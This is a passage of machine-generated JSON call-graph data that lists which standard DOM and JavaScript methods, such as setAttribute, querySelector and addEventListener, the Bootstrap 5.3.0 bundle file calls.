"static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_updateInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getActive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getActive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setActiveIndicatorElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getActive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_directionToOrder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_orderToDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addAriaAndCollapsedClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getDimension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addAriaAndCollapsedClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getDimension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addAriaAndCollapsedClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getDimension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getFirstLevelChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addAriaAndCollapsedClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getFirstLevelChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addAriaAndCollapsedClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "translate3d"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forceUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 